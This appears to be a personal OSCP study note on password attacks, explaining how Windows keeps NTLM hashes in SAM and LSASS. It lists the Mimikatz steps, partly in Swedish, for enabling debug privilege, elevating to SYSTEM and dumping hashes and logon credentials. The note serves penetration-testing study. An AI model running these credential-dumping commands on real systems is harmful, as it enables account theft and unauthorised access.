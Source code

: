 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/7-password-attacks/5-mimikatz/"}
---
```


### Understanding NTLM and Mimikatz:
- Windows stores hashed passwords in the Security Account Manager (SAM)
- Rainbow Table Attack = precomputed hashes compared to hash (does not work with salting)
- Mimikatz
	- Because of the kernel having an exclusive lock on "C:\\Windows\\system32\\config\sam" it cannot be copied or moved. Mimikatz will bypass this.
	- Using the "sekurlsa" module it can also extract hashes from process memory at Local Security Authority Subsystem (LSASS).
		- LSASS is a process in Windows which handles and caches user authentication, password changes, and access token creation.
		- It is run by the SYSTEM account, which is even more privileged than Administrator.
	- Mimikatz need to be run as at least Administrator and have "SeDebugPrivilege" access enabled. It lets us debug or own and other users' processes.
	- Elevation to SYSTEM can happen through PsExec, or Mimikatz's token elevation function (which requires "SeImpersonatePrivilege", and that is on by default for admins).

--------------

### Mimikatz Usage:
1. Enumerate local users:
```
Get-LocalUser
```
2. Start Mimikatz as at least Administrator:
```
.\mimikatz.exe
```
4. Aktivera SeDebugPrivilege:
```
privilege::debug
```
5. Elevera till SYSTEM:
```
token::elevate
```
6. Kör arbiträrt kommando. Exempel:
```
lsadump::sam #Dumpar NTLM hashar från SAM.
sekurlsa::logonpasswords #Dumpar alla logon credentials som kan hittas (lsass).
```
7. Win!

- Alla Mimikatz-commands: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md#commands-list
